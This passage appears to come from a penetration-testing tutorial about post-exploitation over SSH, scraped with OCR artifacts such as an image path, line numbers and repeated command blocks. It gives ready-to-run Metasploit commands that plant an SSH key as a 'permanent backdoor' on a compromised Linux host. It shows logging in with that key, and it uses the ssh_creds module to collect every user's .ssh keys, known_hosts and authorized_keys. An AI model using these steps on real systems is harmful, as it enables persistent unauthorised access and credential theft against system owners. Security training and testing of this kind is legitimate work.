 This will establish an ssh connection between windows client and server without using a password.

Exploit SSH with Metasploit
SSH Key Persistence- Post Exploitation

Consider a situation, that by compromising the host machine you have obtained a meterpreter session and want to leave a permanent backdoor that will provide a reverse connection for next time.

This can be achieved with the help of the Metasploit module named “SSH Key Persistence-a post exploit” when port 22 is running on the host machine.

This module will add an SSH key to a specified user (or all), to allow remote login on the victim via SSH at any time.
use post/linux/manage/sshkey_persistence
msf post(sshkey_persistence) > set session 1
msf post(sshkey_persistence) >exploit
1
2
3
	
use post/linux/manage/sshkey_persistence
msf post(sshkey_persistence) > set session 1
msf post(sshkey_persistence) >exploit

As can be seen in the image given, it added authorized keys to /home / ignite/.ssh and stored a private key within /root/.msf4/loot

As we ensure this by connecting the host machine via port 22 using a private key generated above. Here I have renamed the private as “key” and gave permission 600.
chmod 600 key
ssh -i key ignite@192.168.1.103
1
2
	
chmod 600 key
ssh -i key ignite@192.168.1.103

Bravo!! It works without any congestion and in this way, we can use ssh key as persistence backdoor.
Stealing the SSH key

Consider a situation, that by compromising the host machine you have obtained a meterpreter session and port 22 is open for ssh and you want to steal SSH public key and authorized key. This can be done with the help Metasploit module named “Multi Gather OpenSSH PKI Credentials Collection -a post exploit” as discussed below.

This module will collect the contents of all users .ssh directories on the targeted machine. Additionally, known_hosts and authorized_keys and any other files are also downloaded. This module is largely based on firefox_creds.rb.
use post/multi/gather/ssh_creds
msf post(ssh_creds) >set session 1
msf post(ssh_creds) >exploit
1
2
3
	